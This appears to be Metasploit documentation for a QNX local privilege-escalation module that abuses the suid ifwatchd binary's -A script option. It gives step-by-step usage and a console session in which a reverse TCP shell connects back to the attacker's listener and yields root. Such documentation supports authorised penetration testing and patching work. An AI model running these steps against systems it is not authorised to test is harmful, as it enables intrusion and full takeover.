 ## Description

  This module attempts to gain root privileges on QNX 6.4.x and 6.5.x
  systems by exploiting the `ifwatchd` suid executable.


## Vulnerable Application

  `ifwatchd` allows users to specify scripts to execute using the `-A`
  command line argument; however, it does not drop privileges when
  executing user-supplied scripts, resulting in execution of arbitrary
  commands as root.

  This module has been tested successfully on:

  * QNX Neutrino 6.5.0 (x86)
  * QNX Neutrino 6.5.0 SP1 (x86)

  QNX Neutrino 6.5.0 Service Pack 1 is available here:

  * http://www.qnx.com/download/feature.html?programid=23665


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/qnx/local/ifwatchd_priv_esc`
  3. `set session <ID>`
  4. `run`
  5. You should get a *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf > use exploit/qnx/local/ifwatchd_priv_esc
  msf exploit(qnx/local/ifwatchd_priv_esc) > set session 1 
  session => 1
  msf exploit(qnx/local/ifwatchd_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf exploit(qnx/local/ifwatchd_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing interface arrival event script...
  [*] Executing /sbin/ifwatchd...
  [*] Command shell session 2 opened (172.16.191.188:4444 -> 172.16.191.215:65500) at 2018-03-22 15:18:48 -0400

  id
  uid=100(test) gid=100 euid=0(root)
  uname -a
  QNX localhost 6.5.0 2012/06/20-13:50:50EDT x86pc x86
  ```

